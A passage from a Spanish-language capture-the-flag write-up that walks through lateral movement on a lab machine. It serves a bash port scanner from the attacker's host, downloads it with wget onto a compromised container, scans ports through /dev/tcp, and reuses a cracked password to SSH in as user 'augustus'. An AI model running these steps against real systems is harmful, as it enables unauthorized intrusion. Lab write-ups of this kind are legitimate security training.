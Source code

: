 Pero bueno de esta forma podemos hacer el **script** en **bash**

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.130 - - [05/Jul/2023 18:46:06] "GET /portDiscovery.sh HTTP/1.1" 200 -
```

Ahora lo transferimos ala maquina victima

```bash
root@3a453ab39d3d:/opt# wget http://10.10.14.12:8080/portDiscovery.sh
--2023-07-06 00:46:04--  http://10.10.14.12:8080/portDiscovery.sh
Connecting to 10.10.14.12:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 158 [text/x-sh]
Saving to: ‘portDiscovery.sh’

portDiscovery.sh                 100%[=======================================================>]     158  --.-KB/s    in 0s      

2023-07-06 00:46:04 (11.1 MB/s) - ‘portDiscovery.sh’ saved [158/158]

root@3a453ab39d3d:/opt# 
```

Este es el script 

```bash
root@3a453ab39d3d:/opt# cat portDiscovery.sh 
#!/bin/bash

for port in $(seq 1 65535); do
	timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Port $port - OPEN" &
done; wait
root@3a453ab39d3d:/opt# 
```

Si lo ejecutamos vemos los mismos puertos

```bash
root@3a453ab39d3d:/opt# chmod +x portDiscovery.sh 
root@3a453ab39d3d:/opt# ./portDiscovery.sh 
[+] Port 22 - OPEN
[+] Port 80 - OPEN
^C
root@3a453ab39d3d:/opt# 
```

Como tenemos una contraseña lo que podemos hacer es reutilizarla `superadministrator` para poder conectarnos con el usuario **augustus** por **SSH** a esa **IP**

## Shell as augustus 

```bash
root@3a453ab39d3d:/opt# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
```